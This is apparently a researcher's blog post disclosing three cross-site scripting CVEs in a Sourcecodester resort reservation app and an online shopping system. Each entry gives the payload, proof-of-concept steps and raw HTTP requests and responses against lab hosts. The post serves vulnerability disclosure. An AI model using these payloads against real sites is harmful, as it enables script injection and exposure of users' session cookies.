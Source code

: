```yaml
---
title: CVE POC (2023)
date: 2023-06-19 03:24:23 +0530
categories: [cve, poc]
tags: [cve]
---
```



## CVE-2023-3309

##### TITLE: **Sourcecodester's resort management system v1.0 is vulnerable to authenticated stored cross-site scripting vulnerability via room_no parameter on page=manage_room.**

##### DATE: **18 June, 2023**

##### AUTHOR: **Krishna Agarwal (kr1shna4garwal)**

##### VENDOR HOMEPAGE: **www.sourcecodester.com**

##### SOFTWARE LINK: [**Resort Revervation System**](https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html)

##### EFFECTED VERSION: **v1.0**

##### CVSS 3.1 Vector String: **CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:L/I:L/A:N**

##### VULNERABILITY NAME: **Stored Cross-site scripting**

##### PAYLOAD [1]: `<script/"<a"/src=data:=".<a,[document.cookie].some(confirm)>`

##### REFERENCES:

- [**CVE.ORG**](https://www.cve.org/CVERecord?id=CVE-2023-3309)
- [**NVD.NIST.GOV**](https://nvd.nist.gov/vuln/detail/CVE-2023-3309)
- [**CVEDETAILS.COM**](https://www.cvedetails.com/cve/CVE-2023-3309/)
- [**VULDB.COM**](https://vuldb.com/?id.231805)

##### Proof Of Concept:

```
1. Open http://localhost/php-sqlite-rrs/login.php and authenticate yourself with valid credentials.
2. Click on Room List
3. Then click on Add room
4. Input the [1] in Room/Cottage Number field and other data in other fields
5. Save it!
```

##### VULNERABLE RAW REQUEST:

```
POST /php-sqlite-rrs/Master.php?a=save_room HTTP/1.1
Host: 192.168.1.2
Content-Length: 242
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.2
Referer: http://192.168.1.2/php-sqlite-rrs/?page=manage_room
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=hkuargeb92g5kqkk0mvpajm62u
Connection: close

formToken=%242y%2410%24tDECmereqkQhta%2Fe7BBYL.drDbK8XX1ciC29umwsu4G%2FhCI3uePKe&room_id=&room_no=a%3Cscript%2F%22%3Ca%22%2Fsrc%3Ddata%3A%3D%22.%3Ca%2C%5Bdocument.cookie%5D.some(confirm)%3E&name=Test007&description=Test007&price=1337&status=1
```

##### VULNERABLE RAW RESPONSE:

```
HTTP/1.1 200 OK
Date: Mon, 12 Jun 2023 06:13:37 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.2.4
X-Powered-By: PHP/8.2.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 66
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":"success","msg":"New Room has been addedd successfully"}
```

[![cve-2023-3309.png](https://i.postimg.cc/0NZ0NcZ4/kr1shna4garwal-2023-06-19-at-11-13-51-AM.png)](https://postimg.cc/p9hFGQwQ)

---

## CVE-2023-3311

##### TITLE: **PuneethReddyHC's Online Shopping System Advanced v1.0 is vulnerable to authenticated stored cross-site scripting vulnerability via first_name parameter on addsuppliers.php inside the admin panel.**

##### DATE: **18 June, 2023**

##### AUTHOR: **Krishna Agarwal (kr1shna4garwal)**

##### VENDOR HOMEPAGE: **https://github.com/PuneethReddyHC/online-shopping-system-advanced**

##### SOFTWARE LINK: [**Online Shopping System Advanced**](https://github.com/PuneethReddyHC/online-shopping-system-advanced)

##### EFFECTED VERSION: **v1.0**

##### CVSS 3.1 Vector String: **CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:N**

##### VULNERABILITY NAME: **Stored Cross-site scripting**

##### PAYLOAD [1]: `<script/"<a"/src=data:=".<a,[document.cookie].some(confirm)>`

##### REFERENCES:

- [**CVE.ORG**](https://www.cve.org/CVERecord?id=CVE-2023-3311)
- [**NVD.NIST.GOV**](https://nvd.nist.gov/vuln/detail/CVE-2023-3311)
- [**CVEDETAILS.COM**](https://www.cvedetails.com/cve/CVE-2023-3311/)
- [**VULDB.COM**](https://vuldb.com/?id.231807)

##### Proof Of Concept:

```
1. Open http://localhost/http://192.168.1.8/online-shopping-system-advanced-master/admin/login.php and authenticate yourself with valid credentials.
2. Click on Add Users
3. Input the [1] in first name field field and other data in other fields
4. Add it!
```

##### VULNERABLE RAW REQUEST:

```
POST /online-shopping-system-advanced-master/admin/admin/addsuppliers.php HTTP/1.1
Host: 192.168.1.8
Content-Length: 847
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarya3WwmvOFiAFcRzBX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.8/online-shopping-system-advanced-master/admin/admin/addsuppliers.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=8n0jmvb9o3bqirs2f0ob5svs8s
Connection: close

------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="first_name"

<script/"<a"/src=data:=".<a,[document.cookie].some(confirm)>
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="last_name"

sksrejreni
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="email"

h4x0r@thisdoesntexist.com
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="password"

23020kdfjeit1
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="phone"

1234567890
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="city"

thanjavur
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="country"

india
------WebKitFormBoundarya3WwmvOFiAFcRzBX
Content-Disposition: form-data; name="btn_save"


------WebKitFormBoundarya3WwmvOFiAFcRzBX--

```

##### VULNERABLE RAW RESPONSE:

```
HTTP/1.1 200 OK
Date: Mon, 19 Jun 2023 12:41:27 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.2.4
X-Powered-By: PHP/8.2.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 6840
Connection: close
Content-Type: text/html; charset=UTF-8

....

```

[![CVE-2023-3311](https://i.postimg.cc/xCpHrr2G/kr1shna4garwal-2023-06-19-at-6-20-02-PM.png)](https://postimg.cc/Hc5j5hjj)

---

## CVE-2023-3318

##### TITLE: **Sourcecodester’s resort management system v1.0 is vulnerable to authenticated reflected cross-site scripting vulnerability via page= parameter**

##### DATE: **19 June, 2023**

##### AUTHOR: **Krishna Agarwal (kr1shna4garwal)**

##### VENDOR HOMEPAGE: **www.sourcecodester.com**

##### SOFTWARE LINK: [**Resort Revervation System**](https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html)

##### EFFECTED VERSION: **v1.0**

##### CVSS 3.1 Vector String: **CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:L/I:L/A:N**

##### VULNERABILITY NAME: **Reflected Cross-site scripting**

##### PAYLOAD [1]: update_accountsfrut<%2ftitle><script>alert(document.domain)<%2fscript>tkckj

##### REFERENCES:

- [**CVE.ORG**](https://www.cve.org/CVERecord?id=CVE-2023-3318)
- [**NVD.NIST.GOV**](https://nvd.nist.gov/vuln/detail/CVE-2023-3318)
- [**CVEDETAILS.COM**](https://www.cvedetails.com/cve/CVE-2023-3318/)
- [**VULDB.COM**](https://vuldb.com/?id.231937)

##### Proof Of Concept:

```
1. Go to http://192.168.1.8/php-sqlite-rrs/login.php and authenticated yourself with valid credentials
2. Then, open http://192.168.1.8/php-sqlite-rrs/?page=update_accountsfrut%3C%2ftitle%3E%3Cscript%3Ealert(document.cookie)%3C%2fscript%3Etkckj
```

##### VULNERABLE RAW REQUEST:

```
GET /php-sqlite-rrs/?page=update_accountsfrut%3C%2ftitle%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3Etkckj HTTP/1.1
Host: 192.168.1.8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=fkdlfdkl
Connection: close


```

##### VULNERABLE RAW RESPONSE:

```
HTTP/1.1 200 OK
Date: Mon, 19 Jun 2023 14:07:22 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.2.4
X-Powered-By: PHP/8.2.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 4113
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Update Accountsfrut</title><script>alert(document.domain)</script>
    tkckj

....

```

[![kr1shna4garwal-2023-06-19-at-7-36-10-PM.png](https://i.postimg.cc/fWg8ytcM/kr1shna4garwal-2023-06-19-at-7-36-10-PM.png)](https://postimg.cc/5jLBktKr)

---
